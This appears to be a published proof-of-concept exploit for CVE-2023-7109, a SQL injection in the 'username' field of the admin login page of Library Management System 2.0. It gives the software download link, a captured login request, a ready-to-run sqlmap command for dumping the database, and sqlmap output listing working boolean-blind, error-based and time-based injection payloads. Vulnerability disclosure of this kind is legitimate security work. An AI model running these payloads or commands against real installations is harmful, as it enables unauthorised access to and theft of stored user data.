 # CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Exploit Title:** CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7109

## References: 
+ **CVE-2023-7109:** https://vuldb.com/?id.249004
+ https://www.cve.org/CVERecord?id=CVE-2023-7109

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'username' in "/libsystem/admin/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/libsystem/admin/login.php"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin' OR NOT 3872=3872-- DYwR&login=&password=pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 8182 FROM(SELECT COUNT(*),CONCAT(0x71716b7a71,(SELECT (ELT(8182=8182,1))),0x7178706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jrIz&login=&password=pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))PbNC)-- yHio&login=&password=pass
---
[12:40:04] [INFO] testing MySQL
[12:40:04] [INFO] confirming MySQL
[12:40:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:40:04] [INFO] fetching current database
[12:40:04] [INFO] resumed: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/ed5fefd1-2d1a-4b64-b2b7-c9b4f24b468b)
